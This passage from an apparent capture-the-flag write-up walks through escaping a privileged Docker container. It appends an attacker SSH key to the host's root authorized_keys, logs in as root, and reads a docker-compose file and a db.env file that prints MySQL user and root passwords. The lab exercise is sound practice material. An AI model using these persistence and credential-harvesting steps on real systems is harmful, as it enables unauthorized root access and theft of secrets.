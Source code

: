 Writing the public key to `/mnt/root/.ssh/authorized_keys` (`/root/.ssh/authorized_keys` on the host):

```jsx
root@bb28d5969dd5:~# echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB0nYk5JDOsXnmkB8tQOOspf8I5Ubr2sBLtnXUFq4RMP kali@kali' >> /mnt/root/.ssh/authorized_keys
```

Now, we can use the private key with SSH to get a shell as the `root` user on the host and read the user flag at `/root/user.txt`.

```jsx
$ ssh -i id_ed25519 root@10.10.152.169

root@ubuntu-jammy:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu-jammy:~# wc -c /root/user.txt
38 /root/user.txt
```

## Root Flag

### MySQL Database

From the `dbconfig.php` file, we already knew that the database was running on another host (`db`). Checking the `docker-compose.yml` at `/root/challenge/docker-compose.yml`, we can see it is another container:

```jsx
root@ubuntu-jammy:~/challenge# cat docker-compose.yml; echo
version: '3'

services:
  web:
    platform: linux/amd64
    build: ./web
    ports:
      - "80:80"
    restart: always
    privileged: true
  db:
    image: mariadb:10.11.11-jammy
    volumes:
      - "./db:/docker-entrypoint-initdb.d:ro"
    env_file:
      - ./db/db.env
    restart: always
```

From the `/root/challenge/db/db.env` file, we can get the `root` password for the **MySQL** server:

```jsx
root@ubuntu-jammy:~/challenge# cat db/db.env; echo
MYSQL_PASSWORD=TAJnF6YuIot83X3g
MYSQL_DATABASE=web
MYSQL_USER=web
MYSQL_ROOT_PASSWORD=gG4i8NFNkcHBwUpd
```
